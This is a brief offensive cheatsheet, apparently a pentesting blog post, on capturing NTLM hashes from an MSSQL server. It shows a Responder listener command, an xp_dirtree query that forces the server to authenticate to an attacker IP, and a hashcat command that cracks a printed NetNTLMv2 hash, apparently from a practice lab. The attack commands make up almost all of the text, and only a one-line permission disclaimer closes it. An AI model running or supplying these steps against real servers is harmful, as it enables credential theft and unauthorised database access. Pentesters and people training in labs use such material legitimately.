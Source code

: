 ```yaml
---
title: "Responder Attack Guide for MSSQL Exploitation"
date: 2025-02-18 12:00:00 +0700
categories: [Cheatsheets]
tags: [Responder, MSSQL, Pentesting, Red Teaming, Exploitation]
pin: false
---
```


# Responder Attack via MSSQL

## **Overview**
This guide explains how to use **Responder** to capture NTLM hashes from an MSSQL server and crack them using **Hashcat**.

---

## **Step 1: Start Responder**
To listen for incoming authentication requests on your attacking machine:
```bash
responder -I tun0
```

---

## **Step 2: Trigger NTLM Hash Capture from MSSQL**
Execute the following command in MSSQL to force authentication to the attacking machine:
```sql
xp_dirtree '\\10.10.14.12\a';
```
This will send NTLM authentication attempts to **Responder** running on **10.10.14.12**.

---

## **Step 3: Crack Captured Hash with Hashcat**
Once the NTLM hash appears in **Responder**, use **Hashcat** to crack it:
```bash
hashcat -m 5600 mssql-svc::QUERIER:4141414141414141:790d1a20ff18cdb330b3b6e43bca6988:010100000000000000e901777b28d50126ad6b81542b18860000000001001000780051004d005a004a006f004f00730002001000780048004f00540045006b006300610003001000780051004d005a004a006f004f00730004001000780048004f00540045006b00630061000700080000e901777b28d50106000400020000000800300030000000000000000000000000300000590946bc19d0765a150c1c561e8ea40b9f0627e137bb3b8950ad8952e5b6f3930a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310035002e0031003600000000000000000000000000 /usr/share/wordlists/rockyou.txt
```

Once the password is cracked, you can use it to authenticate to the MSSQL server.

---

**Note:** Ensure that you have permission to perform these actions, as unauthorized use may violate ethical guidelines.

